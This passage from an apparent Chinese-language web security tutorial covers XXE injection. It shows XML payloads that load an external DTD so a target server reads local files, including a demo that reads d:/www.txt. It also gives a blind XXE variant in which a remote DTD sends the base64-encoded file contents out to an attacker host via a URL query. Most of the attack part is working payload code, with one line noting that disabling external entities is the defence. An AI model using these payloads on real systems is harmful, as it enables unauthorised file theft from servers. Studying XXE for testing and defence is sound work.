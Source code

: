 相当于让目标服务器访问外部链接，使得外部`.dtd`文件(相当于一种xml文件)的内容，被目标服务器当做`.xml`文件来执行。即核心代码payload写在外部的`.dtd`文件中

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "http://127.0.0.1/evil2.dtd">
		%file;
]>
<x>&send;</x>
```
下面的是我们外部的写入文件`evil2.dtd`的内容

```
<!ENTITY send SYSTEM "file:///d:/test.txt">
```

一旦XXE漏洞使得目标服务器成功访问到外部实体文件，则会执行外部实体文件的内容

**备注：**条件：看对方的代码有没有禁用外部实体引用，这也是防御XXE的一种措施。如果禁用外部实体，即使存在XXE漏洞，目标服务器也不能执行外部实体内容。类似文件包含中的远程包含。

#### 演示

127.0.0.1主机的www目录下存在一个evil2.dtd，内容如下

```
<!ENTITY send SYSTEM "file:///d:/www.txt">
```

构造payload读取D盘下的`www.txt`文件，内容是`abcdefg`

```
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "http://127.0.0.1/evil2.dtd">
		%file;
]>
<x>&send;</x>
```

在XXE漏洞处执行上述payload，成功通过XXE执行外部实体内容，访问到`www.txt`文件内容

![](https://gitee.com/YatJay/image/raw/master/img/202203152128024.png)

### 无回显XXE漏洞读取文件

#### 写法

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
		<!ENTITY % dtd SYSTEM "http://192.168.xx.xxx:80XX/test.dtd">
		%dtd;
		%send;
]>
```

远程文件`test.dtd`内容如下
```dtd
<!ENTITY % payload
	"<!ENTITY &#x25; send SYSTEM
'http://192.168.xx.xxx:80xx/?data=%file;'>"
>
%payload;
```
